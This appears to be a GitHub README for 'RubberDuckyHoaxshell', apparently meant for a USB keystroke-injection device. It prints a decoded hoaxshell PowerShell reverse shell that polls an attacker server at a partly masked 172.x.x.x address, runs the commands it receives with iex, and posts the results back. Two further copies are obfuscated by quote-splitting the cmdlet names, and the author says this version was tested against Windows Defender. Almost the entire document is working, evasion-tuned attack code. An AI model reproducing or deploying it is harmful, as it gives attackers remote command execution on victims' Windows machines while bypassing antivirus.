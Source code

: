 # RubberDuckyHoaxshell

# Below is the decoded base64 string from hoaxshell payload output

$s='172.x.x.x:8080';$i='212f63c5-4425c1a5-cd46401f';$p='http://';$v=
Invoke-RestMethod -UseBasicParsing -Uri $p$s/212f63c5 -Headers @{"Authorization"
=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/4425c1a5 
-Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop 
-ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/cd46401f 
-Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]:
:UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}.

# This is the above commands that are obsfuscated and has been tested with 
# Windows Defender running. I have left it as one line to avoid any issues with 
# the newline character difference in windows
#
# An example of the obsfucation is:
# $ pwd 
# The above command can be concatenated in powershell and still work ie:
# $ p'w'd will still return the present working directory in powershell
 

$s='172.x.x.x:8080';$i='6bc8886b-e313f625-d3930481';$p='http://';$v=Invoke-Re''stM''ethod -UseBasicParsing -Uri $p$s/6bc8886b -Headers @{"Authorization"=$i};while ($true){$c=(In'v'ok''e-Res''tMethod -UseBasicParsing -Uri $p$s/e313f625 -HeADers @{"Authorization"=$i});if ($c -ne 'None') {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-St'r'i''ng -InputObject $r;$t=Invoke-Rest'Me't'h'od -Uri $p$s/d3930481 -Method POST -Headers @{"Authorization"=$i} -BoDY ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sle'e'p 0.8}

# OR for readability in this explanation (Note - will contain sketchy Newline characters)

$s='172.x.x.x:8080';$i='0588f139-3e06a531-8bad89e2';$p='http://';$v=
I'n'v''o''ke-Res''tMe''t'h'od -UseBasicParsing -Uri $p$s/0588f139 -Headers @
{"Authorization"=$i};while ($true){$c=(I'nvok'e-R'e'stMethod -UseBasicParsing
 -Uri $p$s/3e06a531 -Headers @{"Authorization"=$i});if ($c -ne 'None') 
{$r=i'ex' $c -ErrorAction Stop -ErrorVariable e;$r=Out-St'r'ing -InputObject 
$r;$t=Invoke-Re's't'M'e't'h'o'd -Uri $p$s/8bad89e2 -Method POST -Headers @
{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')}
 sl''e''ep 0.8}
